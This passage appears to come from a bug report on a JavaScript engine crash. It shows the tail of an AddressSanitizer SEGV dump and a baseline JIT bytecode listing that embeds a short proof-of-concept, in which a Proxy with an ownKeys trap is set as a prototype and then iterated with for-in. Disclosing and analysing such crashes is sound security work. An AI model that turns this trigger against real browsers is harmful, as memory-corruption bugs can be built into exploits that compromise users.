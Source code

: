 ```c
        r12 = 0x000061a000000690  r13 = 0x000061100001bfc0  r14 = 0xffff000000000000  r15 = 0xffff000000000002  
        AddressSanitizer can not provide additional info.
        SUMMARY: AddressSanitizer: SEGV (<unknown module>) 
        ==29150==ABORTING
        Abort trap: 6
        

```

***Brief Analysis:***

if we look at the generated bytecode:

```c

        Generated Baseline JIT code for opt#BRDqTi:[0x62d00011c140->0x62d000093500, BaselineFunctionCall, 221], instruction count = 221
            Source: function opt() { function f(a,b) { return a; } let h = {ownKeys:f}; let tmp = {}; let p = new Proxy({},h); o.__proto__ = p; for (let x in o) { } }
            Code at [0x24efc05ff400, 0x24efc0601000):
    [   0] enter                  
    [   1] get_scope          loc4
    [   3] mov                loc5, loc4
    [   6] check_traps        
    [   7] mov                loc8, <JSValue()>(const0)
    [  10] mov                loc9, <JSValue()>(const0)
    [  13] mov                loc10, <JSValue()>(const0)
    [  16] new_func           loc11, loc4, 0
    [  20] mov                loc6, loc11
    [  23] new_object         loc11, 1
    [  27] put_by_id          loc11, 0, loc6, IsDirect
    [  33] mov                loc10, loc11
    [  36] new_object         loc8, 0
    [  40] resolve_scope      loc11, loc4, 1, GlobalProperty, 0
    [  47] get_from_scope     loc12, loc11, 1, 2048<ThrowIfNotFound|GlobalProperty|NotInitialization>, 0, 0
    [  55] new_object         loc15, 0
    [  59] mov                loc14, loc10
    [  62] mov                loc16, loc12
    [  65] construct          loc9, loc12, 3, 22
    [  71] resolve_scope      loc11, loc4, 2, GlobalProperty, 0
    [  78] get_from_scope     loc12, loc11, 2, 2048<ThrowIfNotFound|GlobalProperty|NotInitialization>, 0, 0
    [  86] put_by_id          loc12, 3, loc9, 
    [  92] mov                loc11, <JSValue()>(const0)
    [  95] resolve_scope      loc12, loc4, 2, GlobalProperty, 0
    [ 102] get_from_scope     loc13, loc12, 2, 2048<ThrowIfNotFound|GlobalProperty|NotInitialization>, 0, 0
    [ 110] mov                loc12, loc13
    [ 113] get_property_enumerator loc13, loc12
    [ 116] get_enumerable_length loc14, loc13
    [ 119] mov                loc15, Int32: 0(const1)
    [ 122] loop_hint          
    [ 123] check_traps        
    [ 124] less               loc17, loc15, loc14
    [ 128] jfalse             loc17, 23(->151)
    [ 131] has_indexed_property loc17, loc12, loc15
    [ 136] jfalse             loc17, 9(->145)
    [ 139] to_index_string    loc16, loc15
    [ 142] mov                loc11, loc16
    [ 145] inc                loc15
    [ 147] jmp                -25(->122)
    [ 149] jmp                70(->219)
```